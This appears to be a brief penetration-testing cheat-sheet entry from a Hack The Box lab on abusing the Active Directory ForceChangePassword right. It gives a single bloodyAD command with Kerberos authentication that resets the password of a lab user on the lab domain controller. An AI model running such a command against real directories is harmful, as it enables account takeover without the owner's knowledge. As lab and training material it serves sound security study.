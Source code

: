 # AD Force Change Password

> Pwned User has the ability to change the target users password without know that users current password

## Using BloodyAD
```bash
# Kerberos Auth
bloodyAD --host "dc01.scepter.htb" -d "scepter.htb" -u "d.baker" -k set password "a.carter" "H@ckM3#"
```
